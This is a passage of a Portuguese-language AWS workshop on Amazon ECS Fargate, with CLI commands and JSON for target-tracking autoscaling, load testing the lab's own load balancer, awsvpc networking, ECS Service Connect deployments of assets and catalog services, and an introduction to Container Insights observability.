"PredefinedMetricType": "ALBRequestCountPerTarget",

"ResourceLabel": "$UI_ALB_PREFIX/$UI_TG_PREFIX"

}

}

EOF

Em seguida, aplique a política de dimensionamento com o seguinte
comando:

aws application-autoscaling put-scaling-policy \

--service-namespace ecs \

--scalable-dimension ecs:service:DesiredCount \

--resource-id service/retail-store-ecs-cluster/ui \

--policy-name ui-scaling-policy --policy-type TargetTrackingScaling
\

--target-tracking-scaling-policy-configuration
file://ui-scaling-policy.json

<h2 id="section-7"></h2>
<h2 id="section-8"></h2>
<h2 id="section-9"></h2>
<h2 id="explorar-o-cloudwatch-alarm"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/40-auto-scaling/200-target-tracking#explore-cloudwatch-alarm">Explorar
o CloudWatch Alarm</a></h2>

Quando você navegar até a guia <strong><a
href="https://console.aws.amazon.com/cloudwatch/home#alarmsV2"><u>Alarmes</u></a></strong>
no serviço CloudWatch, verá que a política de dimensionamento criou 2
alarmes do CloudWatch.



<blockquote>

 O primeiro é um alarme
<strong>alto</strong> que rastreia ALBRequestCountPerTarget &gt; 1500
para 3 pontos de dados em 3 minutos. Quando esse alarme entra em estado
de ALARME, o serviço ECS aumenta a escala adicionando mais tarefas, o
que deve reduzir a média de ALBRequestCountPerTarget na nova contagem de
tarefas. Se o alarme permanecer no estado ALARM no próximo período de
avaliação, mais tarefas serão adicionadas até que o número máximo de
tarefas especificado por sua política de dimensionamento seja
atingido.

 O segundo é um alarme
<strong>baixo</strong>, que rastreia ALBRequestCountPerTarget &gt; 1350
para 15 pontos de dados em 15 minutos. Esse alarme é usado para reduzir
o número de tarefas quando o período de alta atividade termina. O
escalonamento é mais lento por design para favorecer uma maior
disponibilidade.

</blockquote>
<h1 id="escala-automática-de-acionamento">Escala automática de
acionamento</h1>

Nesta seção, vamos gerar alguma carga sintética para o nosso serviço
de interface do usuário para ver como ele é dimensionado.

Primeiro, verifique se o nome DNS do balanceador de carga está
associado ao nosso serviço de interface do usuário. Essa variável de
ambiente teria sido exportada como parte do capítulo fundamental.

<blockquote>

export RETAIL_ALB=$(aws elbv2 describe-load-balancers --name
retail-store-ecs-ui \

--query 'LoadBalancers[0].DNSName' --output text)

echo ${RETAIL_ALB}

</blockquote>

Em seguida, executaremos a <a
href="https://httpd.apache.org/docs/2.4/programs/ab.html"><u>ferramenta
hey</u></a> para enviar solicitações ao caminho /home do serviço da
interface do usuário:

hey -n 1000000 -c 5 -q 40 http://$RETAIL_ALB/home

A atividade de escalonamento será acionada quando o <strong>alarme
alto</strong> da métrica de escalonamento for violado por três períodos
consecutivos de um minuto. Se quiser esperar automaticamente até que o
alarme seja acionado, você pode executar este comando:

aws cloudwatch wait alarm-exists --alarm-name-prefix \

TargetTracking-service/retail-store-ecs-cluster/ui-AlarmHigh
--state-value ALARM

Quando o alarme disparar, você notará que a contagem de tarefas do
serviço aumentará de 2 para um número maior:

aws ecs describe-tasks \

--cluster retail-store-ecs-cluster \

--tasks $(aws ecs list-tasks --cluster retail-store-ecs-cluster
--query 'taskArns[]' --output text) \

--query "tasks[*].[group, launchType, lastStatus, healthStatus,
taskArn]" --output table

Você pode observar o alarme alto associado com a política de
dimensionamento em transição para o estado <strong>ALARM</strong> no
console do CloudWatch, como abaixo.



Você também pode verificar a guia <strong>Events Lab</strong>) na
página UI Service &gt; Serviço da IU &gt; para ver a atividade de
dimensionamento, em que a contagem desejada aumenta além da contagem
inicial de tarefas.

<blockquote>



</blockquote>

Feche o gerador de carga pressionando Ctrl + C na janela do terminal.
Depois de alguns minutos, o número de tarefas deve voltar a ser 2 como o
número mínimo.

Trabalho em rede

Os aplicativos modernos, como o nosso aplicativo de amostra,
geralmente são criados a partir de vários componentes distribuídos que
se comunicam entre si. Por exemplo, o componente da interface do usuário
se comunica via API com o componente Catalog, que está vinculado a uma
camada persistente no MySQL, como na arquitetura abaixo.



Neste capítulo, exploraremos os conceitos relevantes da rede do
Amazon ECS relacionados ao Fargate.

<blockquote>

 <a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/100-awsvpc-network-mode"><u>Modo
de rede do Amazon ECS</u></a>  <a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect"><u>ECS
Service Connect</u></a>

</blockquote>

Modo de rede do Amazon ECS

Ao executar contêineres, é importante considerar as configurações de
rede do contêiner em

execução no host. <u>Consulte a documentação para obter mais
informações sobre como escolhe</u><a
href="https://docs.aws.amazon.com/AmazonECS/latest/bestpracticesguide/networking-networkmode.html"><u>r</u></a>
<a
href="https://docs.aws.amazon.com/AmazonECS/latest/bestpracticesguide/networking-networkmode.html"><u>um
modo de rede</u></a>. Nesta seção, forneceremos uma visão geral da
configuração de rede <strong>do modo AWSVPC</strong> necessária para o
Amazon ECS no Fargate.

No <strong>modo AWSVPC,</strong> o Amazon ECS cria e gerencia uma
interface de rede elástica ENI para cada tarefa, e cada tarefa recebe
seu próprio endereço IP privado dentro da VPC. Essa configuração oferece
grande flexibilidade para controlar as comunicações entre tarefas e
serviços em um nível mais granular. O modo de rede AWSVPC é compatível
com as tarefas do Amazon ECS hospedadas no Amazon EC2 e no Fargate. <a
href="https://docs.aws.amazon.com/AmazonECS/latest/bestpracticesguide/networking-networkmode-awsvpc.html"><u>Para
obter mais informações, clique aqui</u></a>.

Ao usar o Amazon ECS no Fargate, é necessário o modo de rede
AWSVPC.



<blockquote>

Nesta seção, analisaremos a configuração de rede do Amazon ECS.
<strong><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/100-awsvpc-network-mode#review-the-network-mode-on-the-deployed-amazon-ecs-cluster"><u>Revise
o modo de rede no cluster do Amazon ECS implantado</u></a></strong> Abra
o console do Amazon ECS para inspecionar os serviços.

</blockquote>

<a
href="https://console.aws.amazon.com/ecs/v2/clusters/retail-store-ecs-cluster/tasks"><u>Abra
o console do Amazon ECS</u></a>

<blockquote>



</blockquote>

A partir daí, você pode selecionar a primeira tarefa em execução.
Role até a seção <strong>Configuração</strong>

<blockquote>

para revisar o <strong>modo de rede</strong>, a <strong>ID
ENI</strong> e o <strong>IP privado</strong> anexado à tarefa:

</blockquote>



Você pode acessar as informações da tarefa de forma programática.
Execute o seguinte comando para obter as informações da tarefa em
execução no serviço de interface do usuário:

aws ecs describe-tasks \

--cluster retail-store-ecs-cluster \

--tasks `aws ecs list-tasks --cluster retail-store-ecs-cluster
--service ui --query 'taskArns[0]' --output text`

{

"tasks": [

{

"attachments": [

{

"id": "464044b3-626f-44da-86ec-fa20a064d408",

"type": "ElasticNetworkInterface",

"status": "ATTACHED",

"details": [

{

"name": "subnetId",

"value": "subnet-08c4050330714ed3d"

},

{

"name": "networkInterfaceId",

"value": "eni-0a6c55131166f85c8"

},

{

"name": "macAddress",

"value": "06:39:15:1c:ae:1f"

},

{

"name": "privateDnsName",

"value": "ip-10-0-4-128.us-west-2.compute.internal"

},

{

"name": "privateIPv4Address",

"value": "10.0.4.128"

}

]

}

],

"attributes": [

{

"name": "ecs.cpu-architecture",

"value": "x86_64"

}

],

"availabilityZone": "us-west-2b",

"clusterArn":
"arn:aws:ecs:us-west-2:XXXXXXXXXX:cluster/retail-store-ecs-cluster",

"connectivity": "CONNECTED",

"connectivityAt": "2024-04-10T08:09:33.968000+00:00",

"containers": [

{

"containerArn":
"arn:aws:ecs:us-west-2:XXXXXXXXXX:container/retail-store-ecs-cluster/70137dd0c1d14cf982e5a6b7446c5f54/db0fa651-1727-4215-b5a5-8a5577120942",

"taskArn":
"arn:aws:ecs:us-west-2:XXXXXXXXXX:task/retail-store-ecs-cluster/70137dd0c1d14cf982e5a6b7446c5f54",

"name": "application",

"image":
"public.ecr.aws/aws-containers/retail-store-sample-ui:0.7.0",

"imageDigest":
"sha256:6316a3c331c39c35798f3b1303f80494526c0a879fe5a3db3b0b9a85c22aab36",

"runtimeId": "70137dd0c1d14cf982e5a6b7446c5f54-524788293",

"lastStatus": "RUNNING",

"networkBindings": [],

"networkInterfaces": [

{

"attachmentId": "464044b3-626f-44da-86ec-fa20a064d408",

"privateIpv4Address": "10.0.4.128"

}

],

"healthStatus": "HEALTHY",

"cpu": "0"

}

],

"cpu": "1024",

"createdAt": "2024-04-10T08:09:29.943000+00:00",

"desiredStatus": "RUNNING",

"enableExecuteCommand": false,

"group": "service:ui",

"healthStatus": "HEALTHY",

"lastStatus": "RUNNING",

"launchType": "FARGATE",

"memory": "2048",

"overrides": {

"containerOverrides": [

{

"name": "application"

}

],

"inferenceAcceleratorOverrides": []

},

"platformVersion": "1.4.0",

"platformFamily": "Linux",

"pullStartedAt": "2024-04-10T08:09:44.535000+00:00",

"pullStoppedAt": "2024-04-10T08:09:52.398000+00:00",

"startedAt": "2024-04-10T08:10:44.148000+00:00",

"startedBy": "ecs-svc/8962710467093341990",

"tags": [],

"taskArn":
"arn:aws:ecs:us-west-2:XXXXXXXXXX:task/retail-store-ecs-cluster/70137dd0c1d14cf982e5a6b7446c5f54",

"taskDefinitionArn":
"arn:aws:ecs:us-west-2:XXXXXXXXXX:task-definition/retail-store-ecs-ui:8",

"version": 4,

"ephemeralStorage": {

"sizeInGiB": 20

}

}

],

"failures": []

}

📘 ECS Service Connect

<blockquote>

<strong>O ECS Service Connect</strong> é a maneira recomendada de
lidar com a comunicação serviço a serviço,

</blockquote>

fornecendo recursos de descoberta de serviço, conectividade e
monitoramento de tráfego. Com o Service Connect, seus aplicativos podem
usar nomes curtos e portas padrão para se conectar aos serviços do ECS
no mesmo cluster, em outros clusters, inclusive entre VPCs na mesma
região do AWS. <a
href="https://docs.aws.amazon.com/AmazonECS/latest/bestpracticesguide/networking-connecting-services.html#networking-connecting-services-serviceconnect"><u>Mais
informações podem ser encontradas aqui.</u></a>

Outras opções para configurar a comunicação entre serviços no Amazon
ECS Services:  <a
href="https://docs.aws.amazon.com/AmazonECS/latest/bestpracticesguide/networking-connecting-services.html#networking-connecting-services-elb"><u>Balanceador
de carga interno</u></a>

<blockquote>

 <a
href="https://docs.aws.amazon.com/AmazonECS/latest/bestpracticesguide/networking-connecting-services.html#networking-connecting-services-direct"><u>Descoberta
de servi</u>ç<u>os</u></a>

</blockquote>

<strong>Habilitando o Service Connect</strong>

Nesta seção, habilitaremos a conexão do serviço ECS em nosso cluster
implantando dois outros microsserviços com os quais o serviço de
interface do usuário se comunicará:

<blockquote>



</blockquote>
<h2 id="implantar-o-serviço-assets"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect/100-enabling-service-connect#deploy-the-assets-service">Implantar
o serviço Assets</a></h2>

Criar definição de tarefa ECS para o <strong>serviço
Assets</strong>.

cat &lt;&lt; EOF &gt; retail-store-ecs-asset-taskdef.json

{

"family": "retail-store-ecs-assets",

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image":
"public.ecr.aws/aws-containers/retail-store-sample-assets:0.7.0",

"cpu": 0,

"portMappings": [

{

"name": "application",

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp",

"appProtocol": "http"

}

],

"essential": true,

"healthCheck": {

"command": [

"CMD-SHELL",

"curl -f http://localhost:8080/health.html || exit 1"

],

"interval": 10,

"timeout": 5,

"retries": 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "assets-service"

}

}

}

]

}

EOF

<blockquote>

aws ecs register-task-definition --cli-input-json
file://retail-store-ecs-asset-taskdef.json Crie o serviço Assets ECS
correspondente:

</blockquote>

aws ecs create-service \

--cluster retail-store-ecs-cluster \

--service-name assets \

--task-definition retail-store-ecs-assets \

--desired-count 1 \

--launch-type FARGATE \

--network-configuration
"awsvpcConfiguration={subnets=[${PRIVATE_SUBNET1}, ${PRIVATE_SUBNET2}],
securityGroups=[$ASSET_SG_ID],assignPublicIp=DISABLED}" \

--service-connect-configuration '{

"enabled": true,

"namespace": "retailstore.local",

"services": [

{

"portName": "application",

"discoveryName": "assets",

"clientAliases": [

{

"port": 80,

"dnsName": "assets"

}

]

}

]

}'

Observe que, quando criamos esse serviço, especificamos
--service-connect-configuration, que é:

<blockquote>

1- Habilitando o Service Connect

2- Especificação de um namespace que todos os serviços
compartilharão

3- Configurar os serviços do Service Connect que serão fornecidos por
esse serviço ECS, incluindo seu alias e número de porta

</blockquote>

<a
href="https://docs.aws.amazon.com/AmazonECS/latest/bestpracticesguide/networking-connecting-services.html#networking-connecting-services-serviceconnect"><u>Mais
informa</u>ç<u>ões podem ser encontradas aqui.</u></a>

<h2 id="implantar-o-serviço-catalog"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect/100-enabling-service-connect#deploy-the-catalog-service">Implantar
o serviço Catalog</a></h2>
<blockquote>

Criar definição de tarefa ECS para o <strong>serviço
Catalog</strong>.

cat &lt;&lt; EOF &gt; retail-store-ecs-catalog-taskdef.json

{

"family": "retail-store-ecs-catalog",

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/cataologEcsTaskExecutionRole",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image":
"public.ecr.aws/aws-containers/retail-store-sample-catalog:0.7.0",

"portMappings": [

{

"name": "application",

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp",

"appProtocol": "http"

}

],

"essential": true,

"environment": [

{

"name": "DB_NAME",

"value": "catalog"

}

],

"secrets": [

{

"name": "DB_ENDPOINT",

"valueFrom":
"arn:aws:ssm:${AWS_REGION}:${ACCOUNT_ID}:parameter/retail-store-ecs/catalog/db-endpoint"

},

{

"name": "DB_PASSWORD",

"valueFrom":
"arn:aws:secretsmanager:${AWS_REGION}:${ACCOUNT_ID}:secret:retail-store-ecs-catalog-db:password::"

},

{

"name": "DB_USER",

"valueFrom":
"arn:aws:secretsmanager:${AWS_REGION}:${ACCOUNT_ID}:secret:retail-store-ecs-catalog-db:username::"

}

],

"healthCheck": {

"command": [

"CMD-SHELL",

"curl -f http://localhost:8080/health || exit 1"

],

"interval": 10,

"timeout": 5,

"retries": 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "catalog-service"

}

}

}

]

}

EOF

</blockquote>

aws ecs register-task-definition --cli-input-json
file://retail-store-ecs-catalog-taskdef.json Crie o serviço Catalog ECS
correspondente:

aws ecs create-service \

--cluster retail-store-ecs-cluster \

--service-name catalog \

--task-definition retail-store-ecs-catalog \

--desired-count 1 \

--launch-type FARGATE \

--network-configuration
"awsvpcConfiguration={subnets=[${PRIVATE_SUBNET1}, ${PRIVATE_SUBNET2}],
securityGroups=[$CATALOG_SG_ID],assignPublicIp=DISABLED}" \

--service-connect-configuration '{

"enabled": true,

"namespace": "retailstore.local",

"services": [

{

"portName": "application",

"discoveryName": "catalog",

"clientAliases": [

{

"port": 80,

"dnsName": "catalog"

}

]

}

]

}'

<h2 id="atualização-do-serviço-de-interface-do-usuário"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect/100-enabling-service-connect#updating-the-ui-service">Atualização
do serviço de interface do usuário</a></h2>

Antes de atualizarmos o serviço de interface do usuário, vamos
aguardar a conclusão da implantação dos novos serviços:

aws ecs wait services-stable --cluster retail-store-ecs-cluster
--services catalog aws ecs wait services-stable --cluster
retail-store-ecs-cluster --services assets

As seguintes variáveis de ambiente precisam ser adicionadas à
definição da tarefa de interface do usuário para vincular o serviço de
interface do usuário aos serviços de catálogo e de ativos:

<blockquote>

"environment": [

{

"name": "ENDPOINTS_CATALOG",

"value": "http://catalog"

},

{

"name": "ENDPOINTS_ASSETS",

"value": "http://assets"

}

Atualize a <strong>definição da tarefa da interface do
usuário</strong> com as variáveis de ambiente.

</blockquote>

cat &lt;&lt; EOF &gt; retail-store-ecs-ui-connect-taskdef.json

{

"family": "retail-store-ecs-ui",

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"taskRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image":
"public.ecr.aws/aws-containers/retail-store-sample-ui:0.7.0",

"portMappings": [

{

"name": "application",

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp",

"appProtocol": "http"

}

],

"essential": true,

"linuxParameters": {

"initProcessEnabled": true

},

"environment": [

{

"name": "ENDPOINTS_CATALOG",

"value": "http://catalog"

},

{

"name": "ENDPOINTS_ASSETS",

"value": "http://assets"

}

],

"healthCheck": {

"command": [

"CMD-SHELL",

"curl -f http://localhost:8080/actuator/health || exit 1"

],

"interval": 10,

"timeout": 5,

"retries": 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "ui-service"

}

}

}

]

}

EOF

aws ecs register-task-definition --cli-input-json
file://retail-store-ecs-ui-connect-taskdef.json

Agora, atualize o serviço de interface do usuário com a nova
definição de tarefa:

aws ecs update-service \

--cluster retail-store-ecs-cluster \

--service ui \

--task-definition retail-store-ecs-ui \

--force-new-deployment \

--service-connect-configuration '{

"enabled": true,

"namespace": "retailstore.local",

"services": [

{

"portName": "application",

"discoveryName": "ui",

"clientAliases": [

{

"port": 80,

"dnsName": "ui"

}

]

}

]

}'

echo "Waiting for service to stabilize...

aws ecs wait services-stable --cluster retail-store-ecs-cluster
--services ui

<h2 id="explore-o-aplicativo-da-web"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect/100-enabling-service-connect#explore-web-application">Explore
o aplicativo da Web</a></h2>

Como implantamos não apenas o serviço de interface do usuário, mas
também os serviços Assets e Catalog, a aparência do aplicativo mudou um
pouco.

export RETAIL_ALB=$(aws elbv2 describe-load-balancers --name
retail-store-ecs-ui \

--query 'LoadBalancers[0].DNSName' --output text)

echo ${RETAIL_ALB} ; echo

Cole o URL em um navegador da Web para acessar o aplicativo e você
verá uma tela como a que está abaixo.



Examinando os serviços

Abra o console do Amazon ECS para inspecionar os serviços. <u>Abra o
console do Amazon ECS</u>

Agora você verá três serviços em execução no cluster:



Navegar até a guia de tarefas mostrará 4 tarefas em execução:



Selecione uma das tarefas em execução e role para baixo até a seção
Contêineres. Na tela abaixo, você pode ver o aplicativo e os contêineres
de proxy. <a
href="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/service-connect-concepts.html#service-connect-concepts-proxy"><u>Mais
informações podem ser encontradas</u></a> <a
href="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/service-connect-concepts.html#service-connect-concepts-proxy"><u>aqui.</u></a>



<h2 id="o-espaço-de-nomes"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect/200-examining-the-services#the-namespace">O
espaço de nomes</a></h2>

O Service Connect usa os namespaces <u>do AWS Cloud Map</u> como um
agrupamento lógico de tarefas do Amazon ECS que se comunicam entre si.
Cada serviço do Amazon ECS pode pertencer a apenas um namespace. Os
serviços em um namespace podem ser distribuídos em diferentes clusters
do Amazon ECS na mesma região do AWS e na mesma conta do AWS.

Para revisar os Namespaces do cluster, abra o painel do Amazon ECS e,
na barra de navegação lateral, selecione <strong>Namespace</strong> para
visualizar os namespaces.



Selecione o namespace para revisar os detalhes da configuração do AWS
Cloud Map associada a cada serviço. O <strong>nome de
descoberta</strong> representa o nome curto associado que pode ser usado
para se conectar ao serviço para serviços que são executados no mesmo
namespace (http://assets).

<blockquote>



</blockquote>

Métricas

Agora podemos analisar as métricas que o Service Connect
disponibiliza.

O Amazon ECS fornece métricas do CloudWatch que você pode usar para
monitorar seus recursos. <u>Veja a lista completa de métricas
disponíveis aqui</u>.

Execute o seguinte comando para gerar algum tráfego sintético:

export RETAIL_ALB=$(aws elbv2 describe-load-balancers --name
retail-store-ecs-ui \

--query 'LoadBalancers[0].DNSName' --output text)

hey -n 1000000 -c 1 -q 10 <a
href="http://$RETAIL_ALB/home">http://$RETAIL_ALB/home</a>

<strong>Revise a métrica do ECS Service Connect no painel Traffic
Health</strong>

Abra o Amazon ECS Console, selecione o retail-store-ecs-cluster e
abra a guia Service.

Selecione o serviço de interface do usuário e role para baixo até o
painel <strong>Traffic Health</strong>.

O Amazon ECS envia as seguintes métricas para o CloudWatch a cada
minuto. Quando o Amazon ECS coleta métricas, ele coleta vários pontos de
dados a cada minuto. <u>Mais informa</u>ç<u>ões pode</u><a
href="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/available_cloudwatch_metrics.html"><u>m</u></a>
<a
href="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/available_cloudwatch_metrics.html"><u>ser
encontradas aqui</u></a>

<blockquote>



</blockquote>

O Amazon ECS configura a tarefa e os contêineres de modo que os
aplicativos só se conectem ao proxy se o aplicativo estiver se
conectando aos nomes de endpoint no mesmo namespace. Todo o restante do
tráfego não usa o proxy. O outro tráfego inclui endereços IP no mesmo
VPC, endpoints de serviço do AWS e tráfego externo. <a
href="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/service-connect-concepts.html#service-connect-concepts-proxy"><u>Mais
informa</u>ç<u>ões podem ser encontradas aqui</u></a>. É por isso que
você não encontrará tráfego de saída para os serviços Assets e
Catalog.

<h2
id="revisar-a-métrica-do-ecs-service-connect-no-amazon-cloudwatch"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect/300-service-connect-metrics#review-ecs-service-connect-metric-on-amazon-cloudwatch">Revisar
a métrica do ECS Service Connect no Amazon CloudWatch</a></h2>

Abra o console de <a
href="https://console.aws.amazon.com/cloudwatch/home%23metricsV2?graph=~(view~%27timeSeries~stacked~false~stat~%27Average~period~300)&amp;namespace=~%27AWS%2A2fECS"><u>métricas
do Amazon CloudWatch</u></a>:



<blockquote>

Clique nas métricas <strong>Cluster, DiscoveryName,
ServiceName</strong> e procure por ui para revisar as métricas de
tráfego.



Você também pode pesquisar <strong>Cluster, ServiceName,
TargetDiscoveryName</strong> para obter outras métricas.

</blockquote>

Serviço de conexão avançada do ECS

Nesta seção, exploraremos os recursos do ECS Service Connect
iniciando uma sessão interativa nos contêineres em execução, para
entender melhor a configuração e os recursos do Service Connect.

<h2 id="conectar-se-à-tarefa-do-ecs-1"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect/400-service-connect-advanced#connect-to-the-ecs-task">Conectar-se
à tarefa do ECS</a></h2>

Execute o seguinte comando para selecionar uma das tarefas em
execução com o enableExecuteCommand ativado:

<blockquote>

ECS_EXEC_TASK_ARN=$(aws ecs list-tasks --cluster
retail-store-ecs-cluster \

--service-name ui --query 'taskArns[]' --output text | \

xargs -n1 aws ecs describe-tasks --cluster retail-store-ecs-cluster
--tasks | \

jq -r '.tasks[] | select(.enableExecuteCommand == true) | .taskArn' |
\

head -n 1)

echo $ECS_EXEC_TASK_ARN

</blockquote>

Isso produzirá o ARN da tarefa:

arn:aws:ecs:us-west-2:XXXXXXXXXX:task/retail-store-ecs-cluster/0564778486a846599b8bd6b544e5f6eb

Inicie sua sessão interativa /bin/bash na tarefa em execução:

if [ -z ${ECS_EXEC_TASK_ARN} ]; then echo "ECS_EXEC_TASK_ARN is not
correctly configured!"; else

aws ecs execute-command --cluster retail-store-ecs-cluster \

--task $ECS_EXEC_TASK_ARN \

--container application \

--interactive \

--command "/bin/bash”

fi

<h2 id="section-10"></h2>
<h2 id="ambiente-de-configuração"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect/400-service-connect-advanced#setup-environment">Ambiente
de configuração</a></h2>

No shell do Bash, instale o comando jq no contêiner em execução para
formatar a saída json na linha de comando.

yum install jq -y

<h2 id="explore-o-arquivo-do-host"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect/400-service-connect-advanced#explore-the-host-file">Explore
o arquivo do host</a></h2>

O arquivo /etc/hosts fornece a correspondência do nome de domínio
totalmente qualificado

(FQDN) com os respectivos IPs. Revise o conteúdo do arquivo
/etc/hosts executando o seguinte comando.

cat /etc/hosts

127.0.0.1 localhost

X.X.X.X ip-X-X-X-X.us-west-2.compute.internal

127.255.0.1 assets

2600:f0f0:0:0:0:0:0:1 assets

127.255.0.2 catalog

2600:f0f0:0:0:0:0:0:2 catalog

127.255.0.3 ui

2600:f0f0:0:0:0:0:0:3 ui

O arquivo contém a configuração de 3 <strong>nomes de
descoberta</strong> no espaço de nomes do ECS com 3 IPs locais
diferentes 127.255.0.X (IPv4 e IPv6). Todos os IPs locais estão
apontando para o mesmo proxy local do ECS que redirecionará o tráfego
para o proxy remoto do ECS correto vinculado ao serviço específico.

<h2 id="teste-a-conexão-com-o-serviço-catalog"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect/400-service-connect-advanced#test-the-connection-to-the-catalog-service">Teste
a conexão com o serviço Catalog</a></h2>

Teste a conexão com a API do Catalog a partir do contêiner em
execução. curl http://catalog/catalogue/tags | jq

<blockquote>

[

{

</blockquote>

"name": "smart", "displayName": "Smart"

<blockquote>

},

{

</blockquote>

"name": "dress",

"displayName": "Dress" (vestido)

<blockquote>

},

{

</blockquote>

"name": "luxury", "displayName": "Luxury" (luxo)

<blockquote>

},

{

</blockquote>

"name": "casual", "displayName": "Casual"

<blockquote>

}

]

</blockquote>

Encerre sua sessão executiva:

exit

</body>
</html>

Observabilidade

A observabilidade é a capacidade de gerar e descobrir continuamente
percepções acionáveis com base nos sinais do sistema sob observação. Em
outras palavras, a observabilidade permite que os usuários entendam o
estado de um sistema a partir de sua saída externa e tomem medidas
(corretivas). Os três pilares da observabilidade são as métricas, os
registros e os rastreamentos:

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/50-observability#metrics"><strong>Métricas</strong></a>

<ul>
<li>
As métricas representam dados numéricos medidos em intervalos de
tempo. Elas aproveitam a modelagem matemática e a previsão para entender
o comportamento de um sistema tanto no presente quanto no
futuro.
</li>
<li>
Útil para identificar tendências, modelagem matemática e
previsão.
</li>
</ul>

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/50-observability#logs"><strong>Registros</strong></a>

<ul>
<li>
Os logs consistem em registros imutáveis, com carimbo de data e
hora, que capturam eventos discretos à medida que ocorrem ao longo do
tempo. Eles são valiosos para detectar comportamentos emergentes e
imprevisíveis.
</li>
<li>
Útil para descobrir comportamentos emergentes e
imprevisíveis.
</li>
</ul>

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/50-observability#traces"><strong>Traços</strong></a>

<ul>
<li>
Os rastros descrevem uma sequência de eventos distribuídos
interconectados que descrevem a jornada de ponta a ponta de uma
solicitação em um sistema distribuído. Eles oferecem insights, como a
latência, sobre o caminho percorrido por uma solicitação e sua
estrutura.
</li>
<li>
Oferece visibilidade do caminho percorrido por uma solicitação e
da estrutura de uma solicitação.
</li>
</ul>



Em resumo, podemos dividi-lo em três componentes principais:
<strong>CloudWatch Metrics</strong>, <strong>CloudWatch Logs</strong> e
<strong>AWS X-Ray</strong>, que juntos formam uma solução abrangente de
observabilidade no AWS, abrangendo o monitoramento de métricas, o
gerenciamento de logs e o rastreamento distribuído, respectivamente.
Esses pilares trabalham em conjunto para fornecer aos usuários insights
profundos sobre o comportamento, o desempenho e a confiabilidade de seus
ambientes e aplicativos do AWS.

Neste capítulo, abordaremos:

<ul>
<li>
<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/50-observability/container-insights">📘
Insights sobre contêineres</a>
</li>
</ul>

📘 Insights sobre contêineres

<strong>Importante</strong>

Você deve ter concluído os seguintes capítulos como pré-requisitos
para este laboratório:

<ul>
<li>
<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/30-basic">Fundamentos</a>
</li>
<li>
<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/60-networking/ecs-service-connect">ECS
Service Connect</a>
</li>
</ul>

Por padrão, o Amazon ECS fornece métricas para clusters e serviços.
No entanto, ao optar pelo Container Insights, você pode aumentar a
conveniência operacional obtendo acesso a métricas adicionais que
facilitam o gerenciamento operacional. <a
href="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/cloudwatch-container-insights.html"><strong>O
CloudWatch Container Insights</strong></a> coleta, agrega e resume as
métricas e os registros de seus aplicativos e microsserviços em
contêineres. Você também pode definir alarmes do CloudWatch para as
métricas coletadas pelo Container Insights.

